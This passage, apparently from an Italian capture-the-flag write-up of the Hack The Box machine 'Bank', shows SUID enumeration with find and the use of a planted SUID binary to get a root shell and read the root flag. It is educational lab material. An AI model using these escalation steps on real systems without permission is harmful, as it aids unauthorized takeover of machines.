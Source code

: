 ```bash
-rwsr-xr-x 1 root root 38932 May  8  2014 /bin/ping
-rwsr-xr-x 1 root root 43316 May  8  2014 /bin/ping6
-rwsr-xr-x 1 root root 35300 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 30112 May 15  2015 /bin/fusermount
-rwsr-xr-x 1 root root 88752 Nov 24  2016 /bin/mount
-rwsr-xr-x 1 root root 67704 Nov 24  2016 /bin/umount

...<snip>...

```

Il primo è particolarmente interessante e non standard, /var/htb/bin/emergency.

Ci rechiamo nella cartella ed eseguiamo il binario
```bahs
www-data@bank:/var/htb/bin$ ./emergency
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
#
```
e ci restituisce una shell da root.

e ci prendiamo la nostra root flag.

```bash
# cd /root
# ls
root.txt
# cat root.txt
7c70de5609c54c321acd5f376231b436
```
## PRIVESC SENZA LINENUM.SH

Posso cercare tutti i binari SUID di proprietà di root sul sistema con questo comando find:

```bash
find / -type f -user root -perm -4000 2>/dev/null
```
Dove: 

cerca in tutte le sottodirectory di / (l'intero file system)
-type f - restituisce solo i file
-user root - restituisce solo i file di proprietà di root
-perm -4000 - file con set di bit SUID
2>/dev/null - non mostra errori

Su Bank, trova diversi elementi:

```bash
www-data@bank:/var/htb/bin$ find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/pppd
/bin/ping
/bin/ping6
```